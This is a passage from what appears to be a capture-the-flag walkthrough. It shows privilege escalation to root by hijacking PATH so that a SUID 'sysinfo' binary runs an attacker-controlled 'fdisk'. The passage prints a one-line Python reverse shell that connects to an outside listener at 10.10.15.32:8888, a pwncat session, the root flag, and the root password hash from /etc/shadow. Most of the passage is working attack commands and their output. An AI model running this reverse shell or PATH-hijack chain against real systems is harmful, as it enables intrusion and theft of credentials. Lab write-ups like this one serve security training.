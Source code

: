 
`/bin/sysinfo` looks unusual:

```
theseus@ubuntu:~$ ls -lh /bin/sysinfo
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo
```

## Privilege Escalation : theseus to root

If we run `sysinfo` there are 4 sections that seems to match so other system
commands:

- Hardware Info: `lshw -short`
- Disk Info: `fdisk -l`
- CPU Info: `cat /proc/cpuinfo`
- MEM Usage: `free -h`

So basically what we have to do is change the `PATH` env var to force the SUID
`sysinfo` to call an attacker controlled binary instead of the system tools.

```
$ mkdir /tmp/cyfun
$ cd /tmp/cyfun
$ touch fdisk
$ vi fdisk
$ chmod +x fdisk
$ export PATH=/tmp/cyfun:$PATH
$ echo $PATH
/tmp/cyfun:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ which fdisk
/tmp/cyfun/fdisk
```

Here is the reverse shell I put in `fdisk`:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.32",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The we just have to run `sysinfo` to get the root shell:

```
$ pwncat -l 8888 -v
# pwd
/tmp/cyfun
# cd /root
# cat root.txt
8b6a4fda49b7bcfe0ed6b1925d45bd96
# cat /etc/shadow | grep root
root:$6$P9JXkqrh$tQfL.bHaQQmi7tBxwKp2wdSTB0D19Q.PHM.8tdLanqBEs70cKzul4SEY0PqfbxVkUv7bR5wrKYXJlb0p69c42.:18184:0:99999:7:::
```

[nmap]:https://nmap.org/
[sqlmap]:https://sqlmap.org
:
[weevely]:https://github.com/epinna/weevely3
[msf]:https://www.metasploit.com/
[pwncat]:https://pwncat.org/
